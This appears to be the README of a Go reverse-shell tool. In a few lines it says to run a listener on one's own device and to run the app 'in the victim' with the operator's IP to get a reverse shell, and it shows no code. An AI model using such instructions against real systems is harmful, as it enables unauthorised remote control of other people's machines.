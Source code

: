 # ReverseShell-Go

Just run the app with listen <port> in your device.
  
Run the app in the victim with emit <YOUR_IP>.
  
And you will get a reverse shell

